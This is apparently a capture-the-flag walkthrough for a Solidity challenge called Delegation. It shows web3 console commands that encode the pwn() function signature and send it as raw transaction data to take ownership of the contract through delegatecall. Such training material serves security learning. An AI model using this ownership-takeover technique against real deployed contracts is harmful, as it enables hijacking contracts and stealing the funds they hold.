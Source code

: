 # Take over ownership of contract
Here contains two contracts, by running contract.abi we can tell it's contract `Delegation`

Looking at the contract, function `pwn` sets the contract owner to `msg.sender`
```
function pwn() public {
    owner = msg.sender;
  }
```
We can get encoded function signature of `pwn` through contract.abi or in console:
```
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Take over contract ownership:
```
contract.sendTransaction({ from: player, data: signature })
```

Verify contract owner:
```
contract.owner()
```
